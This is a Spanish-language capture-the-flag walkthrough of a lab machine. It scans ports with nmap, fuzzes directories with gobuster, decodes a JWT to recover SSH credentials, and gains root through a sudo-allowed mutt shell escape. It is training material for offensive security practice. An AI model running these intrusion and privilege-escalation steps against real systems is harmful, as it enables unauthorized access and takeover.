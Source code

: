 Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.

```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 192.168.80.135 -oN escaneo
```
![alt text](image.png)

Seguida, como sólo tenemos un un puerto abierto, que no corresponde a una web, haremos lo siguiente para ve que podemos extraer de el.

```
curl 192.168.80.135:21
```
![alt text](image-1.png)

Vemos que tiene contendio de texto en el puerto ssh, por la tanto haremos un fuzzing de este puerto.

```
gobuster dir -u http://192.168.80.135:21 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r --no-error -b 404,403 -x txt,html,php
```
![alt text](image-2.png)

Vemos que tenemos un archivo escondido llamado robots, por lo tanto vamos a ver que esconde.

```
curl 192.168.80.135:21/robots.txt
```
![alt text](image-3.png)

Vemos que esconde un directorio oculto, asi que vamos a abrirlo y a ver que esconde.

```
curl 192.168.80.135:21/9a618248b64db62d15b300a07b00580b
```
![alt text](image-4.png)

Vemos que muestra un enlace, que es añadirle una / a la ruta que teniamos puesta. Vamos a entrar a ver que esconde.

```
curl 192.168.80.135:21/9a618248b64db62d15b300a07b00580b/
```
![alt text](image-5.png)

Vemos que nos mustra un contenido cifrado, así que vamos a intentar descifrar el payload del json.

```
echo -n 'eyJpc3MiOiIiLCJpYXQiOm51bGwsImV4cCI6bnVsbCwiYXVkIjoiIiwic3ViIjoiIiwiaWQiOiIxIiwidXNlcm5hbWUiOiJtYXVybyIsInBhc3N3b3JkIjoibUB1UjAxMjMhIn0' | base64 -d | jq
```
![alt text](image-6.png)

Una vez tenemos las credenciales del usuario, entraremos y sacaremos la flag de usuario.

```
ssh mauro@192.168.80.135 -p21
password: m@uR0123!

ls
cat user.txt
```

![alt text](image-7.png)

Una vez tenemos la flag de usuario, vamos a conseguir la de root, para ello tenemos que escalar privilegios.

```
sudo -l
```
![alt text](image-8.png)

Vemos que tiene un binario con permisos de administrador, entonces vamos a explotarlo para escalar los privilegios.

```
sudo -u root /usr/bin/mutt
```
![alt text](image-9.png)
```
!
/bin/bash
```
![alt text](image-10.png)

Finalmente sacaremos la flag de root.

![alt text](image-11.png)